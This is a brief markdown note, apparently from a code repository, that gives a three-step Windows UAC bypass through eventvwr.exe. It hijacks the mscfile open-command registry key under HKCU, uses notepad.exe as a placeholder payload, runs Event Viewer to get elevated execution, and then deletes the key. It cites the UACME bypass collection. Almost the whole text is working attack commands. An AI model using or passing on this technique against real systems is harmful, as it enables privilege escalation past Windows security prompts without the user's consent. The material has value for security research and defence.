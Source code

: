 ## Eventvwr
Step 1 : `reg add HKEY_CURRENT_USER\Software\Classes\mscfile\shell\open\command /f /d "C:\windows\system32\notepad.exe"`

Step 2 : Run `Eventvwr.exe`

Step 3 : `reg delete HKEY_CURRENT_USER\Software\Classes\mscfile\shell\open\command /f`

## Documents 
- https://github.com/hfiref0x/UACME
